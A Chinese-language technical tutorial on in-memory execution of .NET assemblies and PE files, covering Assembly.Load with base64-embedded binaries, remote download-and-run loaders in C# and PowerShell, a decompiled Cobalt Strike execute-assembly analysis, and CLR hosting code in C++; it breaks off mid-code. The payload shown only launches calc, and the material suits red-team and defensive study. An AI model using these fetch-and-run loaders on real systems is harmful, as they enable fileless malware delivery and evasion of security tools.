




# 内存加载执行文件的方法


分两部分：

* .NET程序集
* PE文件

## 0. 执行本地文件

此处以C# C++ Java为例：AI都会写

### exe

在C#中执行一个`.exe`文件可以使用`Process`类，

```csharp
using System;
using System.Diagnostics;

class Program
{
    static void Main()
    {
        Process.Start("C:\\file.exe");
    }
}
```

而在C++中可以使用`CreateProcess`函数。

```cpp
#include <windows.h>

int main()
{
    STARTUPINFO si;
    PROCESS_INFORMATION pi;

    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    // Start the child process.
    if (!CreateProcess(NULL, "C:\\file.exe", NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi))
    {
        printf("CreateProcess failed (%d).\n", GetLastError());
        return 1;
    }

    // Wait until child process exits.
    WaitForSingleObject(pi.hProcess, INFINITE);

    // Close process and thread handles.
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}
```

Java

```java
public void exeExecute(String filePath) {

        try {
            // 创建进程
            ProcessBuilder processBuilder = new ProcessBuilder(filePath);
            processBuilder.redirectErrorStream(true); // 合并错误流
            Process process = processBuilder.start();

            // 等待进程结束
            int exitCode = process.waitFor();
            System.out.println("Exited with code: " + exitCode);
        } catch (IOException | InterruptedException e) {
            e.printStackTrace();
        }
    }
```


### dll

在C#中执行一个`.dll`文件通常涉及在应用程序中加载并调用该`.dll`中的函数。

```csharp
using System;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("C:\\dll_file.dll")]
    public static extern void YourFunction(); // 假设要调用的函数没有返回值

    static void Main()
    {
        YourFunction(); // 调用从DLL中导入的函数
    }
}
```

在C++中执行一个`.dll`文件通常是通过加载动态链接库并调用其中的函数。

```cpp
#include <windows.h>

typedef void (*YourFunction)(); // 假设要调用的函数没有返回值

int main()
{
    HINSTANCE hDLL = LoadLibrary("C:\\dll_file.dll");
    if (hDLL != NULL)
    {
        YourFunction yourFunction = (YourFunction)GetProcAddress(hDLL, "YourFunction");
        if (yourFunction != NULL)
        {
            yourFunction(); // 调用从DLL中导入的函数
        }
        else
        {
            // 处理函数加载失败的情况
        }
        FreeLibrary(hDLL);
    }
    else
    {
        // 处理DLL加载失败的情况
    }

    return 0;
}
```

Java调用第三方dll有点困难，需要dll的源码中实现了JNI方法，此处就不写了。


## 1. managed代码内存加载.NET程序集

**(Assembly.Load)**

使用C#从内存中加载.NET程序集，直接用`Assembly.Load`就行了。

> [从内存加载.NET程序集(Assembly.Load)的利用分析](https://3gstudent.github.io/%E4%BB%8E%E5%86%85%E5%AD%98%E5%8A%A0%E8%BD%BD.NET%E7%A8%8B%E5%BA%8F%E9%9B%86(Assembly.Load)%E7%9A%84%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90)
>
> [Assembly.Load Method (System.Reflection) | Microsoft Learn](https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly.load?view=netframework-4.5)


### 1.1. 三种Load的区别

**`Assembly.Load()`、`Assembly.LoadFrom()`和`Assembly.LoadFile()`**

* `Assembly.Load()`是从String或AssemblyName类型加载程序集，可以读取字符串形式的程序集，也就是说，文件不需要写入硬盘

* `Assembly.LoadFrom()`从指定文件中加载程序集，同时会加载目标程序集所引用和依赖的其他程序集，例如：`Assembly.LoadFrom("a.dll")`，如果a.dll中引用了b.dll，那么会同时加载a.dll和b.dll

* `Assembly.LoadFile()`也是从指定文件中加载程序集，但不会加载目标程序集所引用和依赖的其他程序集，例如：`Assembly.LoadFile("a.dll")`，如果a.dll中引用了b.dll，那么不会加载b.dll

### 1.2. C#反射加载流程

测试程序的代码如下：

```csharp
using System;
namespace TestApplication
{
	public class Program
	{
    		public static void Main()
    		{
        		Console.WriteLine("Main");
    		}
	}
	public class aaa
	{
    		public static void bbb()
    		{
        		System.Diagnostics.Process p = new System.Diagnostics.Process();
        		p.StartInfo.FileName = "c:\\windows\\system32\\calc.exe";
        		p.Start();
    		}
	}
}
```

使用csc.exe进行编译：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:testcalc.exe test.cs
```

生成testcalc.exe

#### 方法1

**（1）测试的.exe作base64编码**

代码如下：

```csharp
using System;
using System.Reflection;
namespace TestApplication
{
    public class Program
    {
        public static void Main()
        {

            byte[] buffer = System.IO.File.ReadAllBytes("testcalc.exe");
            string base64str = Convert.ToBase64String(buffer);
            Console.WriteLine(base64str);
        }
    }
}
```

**（2）还原.exe的内容**

```csharp
using System;
using System.Reflection;
namespace TestApplication
{
    public class Program
    {
        public static void Main()
        {

            string base64str = "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AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA==";
            byte[] buffer = Convert.FromBase64String(base64str);

```


**（3）使用Assembly.Load()加载程序集并调用方法**

代码如下：

```csharp
using System;
using System.Reflection;
namespace TestApplication
{
    public class Program
    {
        public static void Main()
        {

            string base64str = "egrdersg";//这里省略一下
            byte[] buffer = Convert.FromBase64String(base64str);

            Assembly assembly = Assembly.Load(buffer);          
            Type type = assembly.GetType("TestApplication.aaa");
            MethodInfo method = type.GetMethod("bbb");
            Object obj = assembly.CreateInstance(method.Name);            
            method.Invoke(obj, null);
        }
    }
}
```

如果不需要指定需要调用的方法，调用main函数即可：

```csharp
using System;
using System.Reflection;
namespace TestApplication
{
    public class Program
    {
        public static void Main()
        {

            string base64str = "xxxxxx"; //此处省略一万字
            byte[] buffer = Convert.FromBase64String(base64str);

            // 这里的Assembly.Load可以读取字符串形式的程序集，也就是说exe文件不需要写入硬盘
            Assembly assembly = Assembly.Load(buffer);
            // 以exe为例，如果是dll文件就必须指定类名函数名
            MethodInfo method = assembly.EntryPoint;
            method.Invoke(null, null);
            // 想要指定参数
            // object[] parameters = new[] {"-a","-b"};
            // method.Invoke(null, parameters);
        }
    }
}
```

#### 方法2

远程下载

```csharp
	public class remote
    {
        public static void MemoryExecutor()
        {
            // 方法1. 把exe文件给base64编码，然后保存在一个常量里, 转成byte数组，放到Assembly.Load函数里
            // string base64String = Constants.Base64Exe;
            // byte[] buffer = Convert.FromBase64String(base64String);

            // 方法2. 远程下载exe，赋值给一个字符串类型的变量
            byte[] buffer = GetRemoteByte("http://127.0.0.1:8000/testcalc.exe");
            
            Assembly assembly = Assembly.Load(buffer);
            MethodInfo method = assembly.EntryPoint;
            method.Invoke(null, null);
        }
        
        
        private static byte[] GetRemoteByte(string serviceUrl)
        {
            WebClient client = new WebClient();
            byte[] buffer = client.DownloadData(serviceUrl);
            return buffer;
        }
        
    }
```


### 1.3. powershell

> https://idiotc4t.com/code-and-dll-process-injection/.net-fan-she-jia-zai

powershell访问.net程序集的代码比较简单

```powershell
$base64 = "TVqQAAMAAAAEAAA(前面生成的base64编码的程序集)";
$bins  = [System.Convert]::FromBase64String($base64);
$invoke = [System.Reflection.Assembly]::Load($bins);
[System.Console]::WriteLine($invoke);

$args = New-Object -TypeName System.Collections.ArrayList

[string[]]$strings = "-group=all","-full"

$args.Add($strings)

$invoke.EntryPoint.Invoke($N,$args.ToArray());
```

也可以远程加载

```powershell
$invoke = [System.Reflection.Assembly]::UnsafeLoadFrom("http://192.168.0.125/base");
```


## 2. unmanaged代码内存加载.NET程序集

**(execute-assembly)**

当不是用C#编写代码，但还是想要实现上面的操作时，例如Cobalt Strike 3.11中，加入了一个名为”execute-assembly”的命令，能够从内存中加载.NET程序集。`execute-assembly`功能的实现，必须使用一些来自.NET Framework的核心接口来执行.NET程序集口

### 2.1. 基础知识

CLR全称Common Language Runtime（公共语言运行库），是一个可由多种编程语言使用的运行环境

CLR是.NET Framework的主要执行引擎，作用之一是监视程序的运行：

- 在CLR监视之下运行的程序属于”托管的”(managed)代码
- 不在CLR之下、直接在裸机上运行的应用或者组件属于”非托管的”(unmanaged)的代码

**Hosting** (Unmanaged API Reference) 用于将.NET 程序集加载到任意程序中的API（https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/ ）本次主要关注两种方式，按照.net版本区分：

- **ICorRuntimeHost Interface**：https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/icorruntimehost-interface

  支持v1.0.3705, v1.1.4322, v2.0.50727和v4.0.30319

- **ICLRRuntimeHost Interface**：https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/iclrruntimehost-interface

  支持v2.0.50727和v4.0.30319，在.NET Framework 2.0中，ICLRRuntimeHost用于取代ICorRuntimeHost，在实际程序开发中，很少会考虑.NET Framework 1.0，所以两个接口都可以使用

#### 重要接口描述

`ICLRRuntimeHost`、`ICLRRuntimeInfo` 以及`ICLRMetaHost` ，以下是这三个接口的简要描述

[ICLRRuntimeHost Interface - .NET Framework | Microsoft Learn](https://learn.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/iclrruntimehost-interface)

- **ICLRMetaHost**: 这个接口用于在托管代码中获取关于加载的CLR（Common Language Runtime，.NET Framework的核心组件）的信息。基本上，它提供了一个入口点，允许我们枚举加载到进程中的所有CLR版本，并为特定版本的CLR获取`ICLRRuntimeInfo`接口。
- **ICLRRuntimeInfo**: 一旦你有了表示特定CLR版本的`ICLRRuntimeInfo`接口，你可以用它来获取CLR运行时的其他接口，例如`ICLRRuntimeHost`。这个接口还允许你判断这个特定版本的CLR是否已经被加载到进程中。
- **ICLRRuntimeHost**: 这是执行.NET程序集所必需的主要接口。通过这个接口，你可以启动托管代码的执行环境，加载.NET程序集，并执行它。具体来说，它的`ExecuteInDefaultAppDomain`方法可以用来加载和执行.NET程序集。

综上所述，要在非托管代码（如C++）中执行.NET程序集，你需要首先使用`ICLRMetaHost`来确定哪个CLR版本已加载或可用。然后使用`ICLRRuntimeInfo`来为这个CLR版本获取`ICLRRuntimeHost`。最后用`ICLRRuntimeHost`来加载和执行.NET程序集。

### 2.2. CS内存执行流程分析

在Cobalt Strike的代码中找到BeaconConsole.java文件，定位到“execute-assembly”命令处。通过简单分析这段代码可以知道，当解析到用户执行“execute-assembly”命令后，会先验证”pZ“和”F“关键字来判断要执行的.net程序集是否带有参数（具体如何判断请查看CommandParser类）。判断完成使用CommandParser类的popstring方法将execute-assembly的参数赋值给变量，然后调用ExecuteAssembly方法执行程序集。

[](https://0pen1.github.io/2022/02/09/net程序集内存加载执行技术/net程序集内存加载执行技术.assets/image-20220114182430780-16443915545351.png)

我们继续跟进ExecuteAssembly方法，ExecuteAssembly方法有两个参数，第一个参数为待执行的.net程序集路径，第二个参数为.net程序集执行需要的参数。执行这个方法时先将要执行的.net程序集从硬盘读取并加载到PE解析器（PEParser）中，随后判断加载的PE文件是否为.net程序集，如果是.net程序集则创建ExecuteAssemblyJob实例并调用spawn方法。

[](https://0pen1.github.io/2022/02/09/net程序集内存加载执行技术/net程序集内存加载执行技术.assets/image-20220114182256752.png)

接下来进入spawn方法，可以看到是**通过反射DLL的方法，将invokeassembly.dll注入到进程当中**（这块还没自己实现过），并且设置任务号为70（x86版本）或者71（x64）。注入的invokeassembly.dll在其内存中创建CLR环境，然后通过管道再将C#可执行文件读取到内存中,最后执行。

```java
public void spawn(String var1) {
      byte[] var2 = this.getDLLContent();
      int var3 = ReflectiveDLL.findReflectiveLoader(var2);
      if (var3 <= 0) {
         this.tasker.error("Could not find reflective loader in " + this.getDLLName());
      } else {
         if (ReflectiveDLL.is64(var2)) {
            if (this.ignoreToken()) {
               this.builder.setCommand(71);
            } else {
               this.builder.setCommand(88);
            }
         } else if (this.ignoreToken()) {
            this.builder.setCommand(70);
         } else {
            this.builder.setCommand(87);
         }

         var2 = this.fix(var2);
         if (this.tasker.obfuscatePostEx()) {
            var2 = this._obfuscate(var2);
         }

         var2 = this.setupSmartInject(var2);
         byte[] var4 = this.getArgument();
         this.builder.addShort(this.getCallbackType());
         this.builder.addShort(this.getWaitTime());
         this.builder.addInteger(var3);
         this.builder.addLengthAndString(this.getShortDescription());
         this.builder.addInteger(var4.length);
         this.builder.addString(var4);
         this.builder.addString(var2);
         byte[] var5 = this.builder.build();
         this.tasker.task(var1, var5, this.getDescription(), this.getTactic());
      }
   }
```

[](https://0pen1.github.io/2022/02/09/net程序集内存加载执行技术/net程序集内存加载执行技术.assets/image-20220209135538841.png)

[](https://0pen1.github.io/2022/02/09/net程序集内存加载执行技术/net程序集内存加载执行技术.assets/image-20220117192352767.png)

总结一下，Cobalt Strike内存加载执行.net程序集大概的过程就是，首先spawn一个进程并传输invokeassembly.dll注入到该进程，invokeassembly.dll实现了在其内存中创建CLR环境，然后通过管道再将C#可执行文件读取到内存中,最后执行。

**那么invokeassembly.dll内部是如何操作的呢？**

### 2.3. 硬盘加载执行.NET程序集

1. 初始化ICLRMetaHost接口。
2. 通过ICLRMetaHost获取ICLRRuntimeInfo接口。
3. 通过ICLRRuntimeInfo将 CLR 加载到当前进程并返回运行时接口ICLRRuntimeHost指针。
4. 通过ICLRRuntimeHost.Start()初始化CLR。
5. 通过ICLRRuntimeHost.EecuteInDefaultAppDomain执行指定程序集(硬盘上)。

#### 示例代码

**unmanaged.cpp**

```cpp
#include <metahost.h>
#pragma comment(lib, "mscoree.lib")

int main()
{
    ICLRMetaHost* iMetaHost = NULL;
    ICLRRuntimeInfo* iRuntimeInfo = NULL;
    ICLRRuntimeHost* iRuntimeHost = NULL;

    //初始化环境
    CLRCreateInstance(CLSID_CLRMetaHost, IID_ICLRMetaHost, (LPVOID*)&iMetaHost);
    iMetaHost->GetRuntime(L"v4.0.30319", IID_ICLRRuntimeInfo, (LPVOID*)&iRuntimeInfo);
    iRuntimeInfo->GetInterface(CLSID_CLRRuntimeHost, IID_ICLRRuntimeHost, (LPVOID*)&iRuntimeHost);
    iRuntimeHost->Start();

    //执行
    iRuntimeHost->ExecuteInDefaultAppDomain(L"C:\\TEST.exe", L"TEST.Program", L"print", L"test", NULL);

    //释放
    iRuntimeInfo->Release();
    iMetaHost->Release();
    iRuntimeHost->Release();

    return 0;
};
```

执行的C#源码

```csharp
using System;

namespace TEST
{
    class Program
    {
        static int Main(String[] args)
        {

            return 1;
        }
        static int print(String strings)
        {
            Console.WriteLine(strings);
            return 1;
        }
    }
}
```

### 2.4. 内存加载执行.NET程序集

> 

1.初始化CLR环境(同上)

```cpp
	CLRCreateInstance(CLSID_CLRMetaHost, IID_ICLRMetaHost, (VOID**)&iMetaHost);
	iMetaHost->GetRuntime(L"v4.0.30319", IID_ICLRRuntimeInfo, (VOID**)&iRuntimeInfo);
	iRuntimeInfo->GetInterface(CLSID_CorRuntimeHost, IID_ICorRuntimeHost, (VOID**)&iRuntimeHost);
	iRuntimeHost->Start();
```

2.通过ICLRRuntimeHost获取AppDomain接口指针，然后通过AppDomain接口的QueryInterface方法来查询默认应用程序域的实例指针。

```cpp
	iRuntimeHost->GetDefaultDomain(&pAppDomain);
	pAppDomain->QueryInterface(__uuidof(_AppDomain), (VOID**)&pDefaultAppDomain);
```

3.通过默认应用程序域实例的Load_3方法加载安全.net程序集数组，并返回Assembly的实例对象指针，通过Assembly实例对象的get_EntryPoint方法获取描述入口点的MethodInfo实例对象。

```cpp
	saBound[0].cElements = ASSEMBLY_LENGTH;
	saBound[0].lLbound = 0;
	SAFEARRAY* pSafeArray = SafeArrayCreate(VT_UI1, 1, saBound);

	SafeArrayAccessData(pSafeArray, &pData);
	memcpy(pData, dotnetRaw, ASSEMBLY_LENGTH);
	SafeArrayUnaccessData(pSafeArray);

	pDefaultAppDomain->Load_3(pSafeArray, &pAssembly);
	pAssembly->get_EntryPoint(&pMethodInfo);
```

4.创建参数安全数组

```cpp
ZeroMemory(&vRet, sizeof(VARIANT));
	ZeroMemory(&vObj, sizeof(VARIANT));
	vObj.vt = VT_NULL;

	vPsa.vt = (VT_ARRAY | VT_BSTR);
	args = SafeArrayCreateVector(VT_VARIANT, 0, 1);

	if (argc > 1)
	{
		vPsa.parray = SafeArrayCreateVector(VT_BSTR, 0, argc);
		for (long i = 0; i < argc; i++)
		{
			SafeArrayPutElement(vPsa.parray, &i, SysAllocString(argv[i]));
		}

		long idx[1] = { 0 };
		SafeArrayPutElement(args, idx, &vPsa);
	}
```

5.通过描述入口点的MethodInfo实例对象的Invoke方法执行入口点。

```cpp
HRESULT hr = pMethodInfo->Invoke_3(vObj, args, &vRet);
```

#### 示例代码

```cpp
#include <stdio.h>
#include <tchar.h>
#include <metahost.h>
#pragma comment(lib, "mscoree.lib")

#import <mscorlib.tlb> raw_interfaces_only			\
    	high_property_prefixes("_get","_put","_putref")		\
    	rename("ReportEvent", "InteropServices_ReportEvent")	\
	rename("or", "InteropServices_or")

using namespace mscorlib;
#define ASSEMBLY_LENGTH  8192


unsigned char dotnetRaw[8192] =
"\x4d\x5a\x90\x00\x03\x00\x00\x00\x04\x00\x00\x00\xff\xff\x00...";//.net程序集字节数组


int _tmain(int argc, _TCHAR* argv[])
{

	ICLRMetaHost* iMetaHost = NULL;
	ICLRRuntimeInfo* iRuntimeInfo = NULL;
	ICorRuntimeHost* iRuntimeHost = NULL;
	IUnknownPtr pAppDomain = NULL;
	_AppDomainPtr pDefaultAppDomain = NULL;
	_AssemblyPtr pAssembly = NULL;
	_MethodInfoPtr pMethodInfo = NULL;
	SAFEARRAYBOUND saBound[1];
	void* pData = NULL;
	VARIANT vRet;
	VARIANT vObj;
	VARIANT vPsa;
